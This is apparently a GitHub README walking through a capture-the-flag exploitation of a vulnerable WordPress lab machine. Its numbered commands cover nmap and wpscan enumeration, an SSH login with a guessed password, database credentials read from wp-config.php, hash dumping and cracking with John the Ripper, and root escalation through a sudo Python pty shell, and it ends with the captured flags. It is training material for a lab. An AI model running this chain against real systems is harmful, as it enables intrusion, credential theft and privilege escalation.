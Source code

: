 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Look at Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1. ` nmap -sV 192.168.1.110`

    ![1](/Images/2/1.png)

2. Enumerate: 

    `wpscan --url http://192.168.1.110/wordpress -eu`

    Likewise, the usernames are easy to guess because of the leads on the website.

    ![2](/Images/2/wpscan.PNG)

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

    ![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

    ![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

    ![4](/Images/2/4.png)

12. `cd /var/www/html/wordpress`

13. `Nano wp-config.php`

    ![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

    ![6](/Images/2/6.png)

17. `use wordpress;`

    ![7](/Images/2/7.png)

18. `show tables;`

    ![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

    ![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

    ![10](/Images/2/10.png)

24. `john hashes.txt -wordlist="/usr/share/wordlists/rockyou.txt"`

    #### If rock you is not descompressed use 'sudo gunzip  /usr/share/wordlists/rockyou.txt.gz' to do it.

25. `john –show hashes.txt`

    ![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

    ![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

    ![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

    ![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

    ![15](/Images/2/15.png)

32. `grep -r flag3 *`

    ![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

    ![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}

